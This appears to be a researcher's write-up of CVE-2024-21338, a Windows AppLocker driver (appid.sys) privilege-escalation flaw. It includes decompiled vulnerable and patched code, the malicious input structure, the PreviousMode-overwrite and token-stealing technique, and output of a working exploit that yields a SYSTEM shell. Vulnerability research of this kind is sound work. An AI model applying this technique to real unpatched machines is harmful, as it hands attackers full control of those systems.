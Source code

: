 ```yaml
---
title: "CVE-2024-21338 - Windows AppLocker Kernel Elevation of Privilege Vulnerability"
pubDate: 2025-05-18
author: "Ghostbyt3"
tags: ["1day", "appid.sys", "windows", "kernel", "privesc"]
description: "CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (appid.sys). The flaw resides in the AipSmartHashImageFile function, reachable via IOCTL 0x22A018, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode."
---
```


CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (`appid.sys`). The flaw resides in the `AipSmartHashImageFile` function, reachable via IOCTL `0x22A018`, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode.

**CVE-2024-21338:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21338  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155    

## Requirements

To send the IOCTL request, the IOCTL code was examined and found to have the access flag set to `FILE_WRITE_ACCESS`. This means the I/O manager will dispatch the IRP only if the caller has write access rights.

![IMG](/img/cve-2024-21338/img2.png)

The device’s security descriptor was checked to determine which users have permission to open a handle. It was observed that only the `AppIDSvc` and `LOCAL SERVICE` accounts have full access and `Administrator` does not. As a result, a `cmd.exe` session must be run under one of these two accounts to interact with and exploit the device.

![IMG](/img/cve-2024-21338/img1.png)

One of the simplest methods to achieve this is by using `PsExec.exe` to spawn a shell as the `LOCAL SERVICE` user.

![IMG](/img/cve-2024-21338/img3.png)

## Vulnerability analysis

The IOCTL request sent to `0x22A018` takes user-supplied input and passes it to the `AipSmartHashImageFile()` function.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

      case 0x22A018u:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(WPP_GLOBAL_Control->AttachedDevice, 27LL, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)_IRP->AssociatedIrp.SystemBuffer, 0LL, 0LL, 0LL); // Call to AipSmartHashImageFile with User input
LABEL_103:
          v9 = ConfigOptions;
          break;
        }
LABEL_25:
        v9 = -1073741811;
        break;
      default:
        v7 = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control == (PDEVICE_OBJECT)&WPP_GLOBAL_Control || (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) == 0 )
          goto LABEL_15;
        v8 = 28LL;
LABEL_14:
        WPP_SF_D(v7->AttachedDevice, v8, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids, LowPart);
LABEL_15:
        v9 = -1073741808;
        break;
    }


[::]

}
```

Following up, the process takes the following path and performs several checks. The main check happens in `appid!AipSmartHashImageFile()` whose primary functionality is passing the value at `SystemBuffer + 8` to [`ObfReferenceObject()`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject). This routine increments the reference count of the specified object, which implies that the value at SystemBuffer + 8 must be a valid kernel object address. Otherwise, the reference operation will fail or potentially lead to a crash.

![IMG](/img/cve-2024-21338/img.png)

`AppHashComputeImageHashInternal()` calls the function pointer stored at `SystemBuffer + 16`, passing the value at `SystemBuffer` (i.e., the first 8 bytes) as an argument.

```c++
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 SystemBuffer,
        __int64 (__fastcall **SystemBuffer_16)(__int64, __int128 *),
        unsigned int a3,
        __int64 a4)
{

[::]

  __int64 v43; // [rsp+A8h] [rbp+Fh]

  v39 = SystemBuffer_16;
  *(_QWORD *)v32 = a4;
  v40 = SystemBuffer;
  v29 = 0;
  v37 = 0LL;
  v38 = 0LL;
  v5 = 0;
  v43 = 0LL;
  v6 = 0;
  v30 = 0;
  v33 = 0;
  v34 = 0;
  LODWORD(v35) = 0;
  *(_QWORD *)v41 = 0LL;
  v42 = 0LL;
  if ( !a3 )
    return 0;
  v7 = (*SystemBuffer_16)(SystemBuffer, &v42); // Vulnerable function call


[::]

```

This is a sample structure of how the input should be defined:

```c
typedef struct SMART_HASH_INPUT {
    DWORD64 Arguments_Ptr;
    PVOID Object_Ptr;
    PVOID ExpProfileDelete_Ptr;
    DWORD64 PADDING;
} _SMART_HASH_INPUT, *PSMART_HASH_INPUT;
```
- `Object_Ptr` must be a valid object pointer that satisfies the expectations of `AipSmartHashImageFile()`.
- `ExpProfileDelete_Ptr` is the API that will be invoked. This call is routed through `guard_dispatch_icall_fpt`, which enforces Kernel Control Flow Guard (KCFG). The `nt!ExpProfileDelete()` function ultimately calls the `ObfDereferenceObjectWithTag` kernel macro.
- This macro decrements the reference count field of the object passed to it (located at offset -0x30). This behavior makes it ideal for modifying the `PreviousMode` of a thread from a user-mode value of 1 to a kernel-mode value of 0.
- To achieve this, we need to pass the address of `nt!ExpProfileDelete()` to `ExpProfileDelete_Ptr`, and `Arguments_Ptr` must point to the `KTHREAD.PreviousMode` field of the current thread.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-21338/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-21338.exe -p 2116
[+] Trying to find Thread ID for the given process PID: 2116
[+] First Thread ID of the process: 2120
[+] NT base address fffff80012400000
[+] Found EPROCESS of the current process FFFFAD85DAFBE080
[+] Found KTHREAD of the current thread FFFFAD85D9335080
[+] Found EPROCESS of the system.exe FFFFAD85D64E8040
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Dummy FILE_OBJECT address: FFFFAD85DBA171D0
[+] Calling AipSmartHashImageFile ....success
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22621.1]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Patch analysis

The patched version adds checks to ensure the input does not originate from user mode and restricts access.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

case 0x22A018:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(
            (__int64)WPP_GLOBAL_Control->AttachedDevice,
            0x1Bu,
            (__int64)&WPP_9fed954e24023a5a6dae708fb6376e6f_Traceguids);
        if ( (unsigned int)Feature_2959575357__private_IsEnabled() && ExGetPreviousMode() )  // Fix
          goto LABEL_20;
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)IRP->AssociatedIrp.MasterIrp, 0LL, 0LL, 0LL);
LABEL_105:
          v8 = ConfigOptions;
          break;
        }
LABEL_27:
        v8 = -1073741811;
        break;


[::]
}
```

## Acknowledgements

- It was explained by Nero0oo0 and can be found [here](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/).

